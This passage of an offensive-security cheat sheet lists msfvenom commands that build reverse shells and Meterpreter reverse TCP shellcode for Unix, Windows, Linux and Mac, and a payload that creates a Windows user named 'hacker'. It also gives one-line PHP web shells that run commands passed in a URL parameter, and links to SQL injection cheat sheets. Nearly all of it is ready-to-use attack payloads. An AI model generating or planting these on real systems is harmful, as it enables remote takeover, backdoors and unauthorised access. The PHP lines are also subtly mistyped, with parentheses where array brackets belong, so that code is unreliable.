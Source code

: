 #### Bash Unix Reverse Shell

```
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```

#### Perl Unix Reverse shell

```
msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl
```

## Shellcode

#### Windows Meterpreter Reverse TCP Shellcode

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```

#### Linux Meterpreter Reverse TCP Shellcode

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```

#### Mac Reverse TCP Shellcode

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```

#### Create User

```
msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe
```

## PHP

```php
<?php exec($_GET('cmd'));?>
<?php system($_GET('cmd'));?>
<?php shell_exec($_GET('cmd'));?>
```

## PayloadCollection

#### SQLInjection

https://www.exploit-db.com/papers/12975

 https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
